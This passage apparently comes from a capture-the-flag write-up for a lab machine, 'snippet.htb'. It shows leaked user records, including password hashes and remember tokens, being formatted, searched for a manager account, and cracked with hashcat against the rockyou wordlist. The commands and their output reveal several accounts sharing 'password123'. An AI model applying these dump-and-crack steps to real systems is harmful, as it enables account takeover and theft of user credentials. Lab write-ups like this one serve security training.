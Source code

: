 
### Step 2
Copy all json data to file and format it using `json.tool`:
```bash
➜  extension python3 -m json.tool temp_download_users.json > snippet_users.json
```

Looking for high value targets we find that `Charlie` is the only _manager_ on the site:
```bash
➜  extension cat snippet_users.json | grep -B10 Manager
[
    {
        "id": 1,
        "name": "Charlie Rooper",
        "email": "charlie@snippet.htb",
        "email_verified_at": "2022-01-02 20:12:46",
        "password": "30ae5f5b247b30c0eaaa612463ba7408435d4db74eb164e77d84f1a227fa5f82",
        "remember_token": "T8hTcYuS7ULTi73eYg7ZHhncyNucDKQb3VaUDfcotdEGaDESr3YsP9xUlJEQ",
        "created_at": "2022-01-02 20:12:47",
        "updated_at": "2022-06-20 14:46:28",
        "user_type": "Manager"
```

Jean that we also found earlier is a member, her hash/token/information might come in handy later on.
```bash
➜  extension cat snippet_users.json | grep -a10 jean
    {
        "id": 664,
        "name": "Jean Castux",
        "email": "jean@snippet.htb",
        "email_verified_at": "2022-01-02 20:15:30",
        "password": "7f13a99efb779ebbe57cbca71dfac6334dd7e3e6345a353d74912e9843f918b6",
        "remember_token": "naXzYffXKP",
        "created_at": "2022-01-02 20:15:37",
        "updated_at": "2022-01-02 20:15:37",
        "user_type": "Member"
    },
```

Trying to crack all hashes we only get one hit:
```bash
➜  extension grep password snippet_users.json | awk -F\" '{print $4}' > tmp_hashes
➜  extension grep 'email"' snippet_users.json | awk -F\" '{print $4}' > tmp_email
➜  extension paste -d ":" tmp_email tmp_hashes > snippet_users.hash

➜  extension hashcat -a0 -m1400 snippet_users.hash /usr/share/wordlists/rockyou.txt --user
[... snip ...]
ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f:password123

➜  extension hashcat -a0 -m1400 snippet_users.hash /usr/share/wordlists/rockyou.txt --user --show
letha@snippet.htb:ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f:password123
fredrick@snippet.htb:ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f:password123
gia@snippet.htb:ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f:password123
juliana@snippet.htb:ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f:password123
```
